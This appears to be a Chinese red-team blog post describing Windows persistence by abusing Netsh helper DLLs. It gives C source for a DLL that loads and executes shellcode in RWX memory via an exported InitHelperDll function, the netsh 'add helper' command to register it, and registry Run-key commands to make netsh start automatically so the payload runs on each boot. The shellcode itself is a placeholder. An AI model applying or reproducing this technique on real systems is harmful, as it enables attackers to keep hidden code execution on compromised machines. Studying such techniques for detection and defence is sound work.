 ```yaml
---
layout:     post
title:    Windows权限维持-Netsh
subtitle:   Windows权限维持-Netsh
date:       2019-11-21
author:     hmoytx
header-img: img/bg_02.jpg
catalog: true
tags:
    - 渗透测试
    - 红队
    - 内网渗透
    - 权限维持
---
```

# Windows权限维持-Netsh

## 简介
Netsh是Windows中用于网络配置命令工具，管理员可以使用它来执行与系统的网络配置有关的任务，可以用来配置防火墙策略用于转发。Netsh可以通过使用DLL文件来扩展自身的功能，基于此功能可以用来加载任意DLL，实现权限维持。  

## DLL
这里的dll是用来加载的，跟直接用rundll32调用的是有区别的。这里给出函数原型：  
```
DWORD
WINAPI
InitHelperDll(
    DWORD      dwNetshVersion,
    PVOID      pReserved
)
```
然后用vs创建一个dll项目，根据这个原型，将执行内容换成之前静态免杀中使用的加载shellcode的形式。  
```
#include <windows.h>

unsigned char shellcode[] ="xxxxxxxxxxxxxxxx";

extern "C" __declspec(dllexport) DWORD InitHelperDll(DWORD      dwNetshVersion, PVOID pReserved)
{
    ((void(*)(void))&shellcode)();
}

```
稍微改写下。 
```
…………
DWORD WINAPI RunCode(LPVOID lpParameter)
{
    unsigned char shellcode[] =“xxxxxxxxxx”;
    LPVOID Memory = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(Memory, shellcode, sizeof(shellcode));
    ((void(*)())Memory)();
    return 1;
}  

extern "C" __declspec(dllexport) DWORD InitHelperDll(DWORD dwNetshVersion, PVOID
pReserved)
{
    HANDLE hand;
    hand = CreateThread(NULL, 0, RunCode, NULL, 0, NULL);
    CloseHandle(hand);
    return NO_ERROR;
}
``` 
编译出来。  

###  添加HelperDll
在命令行中运行netsh添加dll。  
```
C:\>netsh
netsh>add helper path\xx.dll
```
![191128_1](/img/addhelper.png)  
添加后，会在注册表中多一项：   
```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NetSh
```
![191128_2](/img/191128_reg.png)  
然后只要每次运行netsh，就会上线。  
![191128_3](/img/beacon.png)  
不过默认情况下，netsh不是自启动的需要在注册表中创建一下，以保证持久性。  
```
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run" /v
NetshStart /t REG_SZ /d "C:\Windows\SysWOW64\netsh"
reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run\\ -v
NetshStart -d 'C:\Windows\SysWOW64\netsh'
```  


### 补充
在有些机器上含有代理工具的，似乎是不需要添加netsh为自启的。  